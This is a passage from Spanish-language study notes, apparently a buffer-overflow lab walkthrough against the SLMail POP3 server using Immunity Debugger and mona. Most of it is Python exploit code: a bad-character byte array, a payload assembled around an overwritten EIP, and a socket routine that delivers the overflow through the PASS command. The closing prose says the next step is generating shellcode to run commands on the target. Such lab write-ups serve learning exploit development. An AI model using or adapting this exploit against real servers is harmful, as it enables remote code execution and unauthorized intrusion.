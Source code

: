 ```python
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

payload=before_eip+eip+after_eip

def exploit():

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((ip, port))

    banner = s.recv(1024)

    s.send(b"USER tumbaburras" + b'\r\n')
    response = s.recv(1024)

    s.send(b"PASS" + payload + b'\r\n')


    s.close

if __name__ == '__main__':

    exploit()



```


Antes de ejcutarlo nuevamente reinicamos el immunity debugger y el slmail ya reiniciados entonces ahora si  lo ejecutamos 

![[Pasted image 20240308222712.png]]

Y usando mona con la utilidad compare vemos cuales son los nuevos badchars

![[Pasted image 20240308223508.png]]

Al parecer ya no encontro ningun nuevo badchar por lo que ya sabemos cuales caracteres son los que hacen que se corrompa todo y que puedan tenener problemas de cara a la represntacion del shellcode por que ahora podemos generar un shellcode que cargue una instruccion que a mi me interese sin estos badchars para asi lograr inyectar comandos en la maquina
